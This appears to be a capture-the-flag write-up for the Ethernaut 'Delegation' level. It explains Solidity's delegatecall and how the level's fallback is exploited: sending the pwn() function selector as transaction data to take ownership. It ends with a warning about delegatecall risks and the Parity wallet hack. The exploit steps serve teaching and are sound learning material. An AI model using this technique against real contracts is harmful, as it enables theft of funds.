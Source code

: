 # Delegation

## Key

> Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.

> There exists a special variant of a message call, named delegatecall which is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and msg.sender and msg.value do not change their values.
> https://docs.soliditylang.org/en/v0.8.12/introduction-to-smart-contracts.html?highlight=delegatecall#delegatecall-callcode-and-libraries

**`DELEGATECALL` To invoque it:**

```
contract.delegatecall(abi.encodeWithSignature("functionNombre(uint256)", _num));
```

**`FALLBACK` function:**

```
To trigger fallback function, the simplest way is to use sendTransaction
```

## Solution

1. Find `pwn()` function signature:

```js
web3.eth.abi.encodeFunctionSignature('pwn()');
('0xdd365b8b');
```

2. Use is as part of `data` inside a transaction that will trigger the fallback function

```js
web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  data: '0xdd365b8b',
});
```

## Post solution info

Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the The Parity Wallet Hack Explained (https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
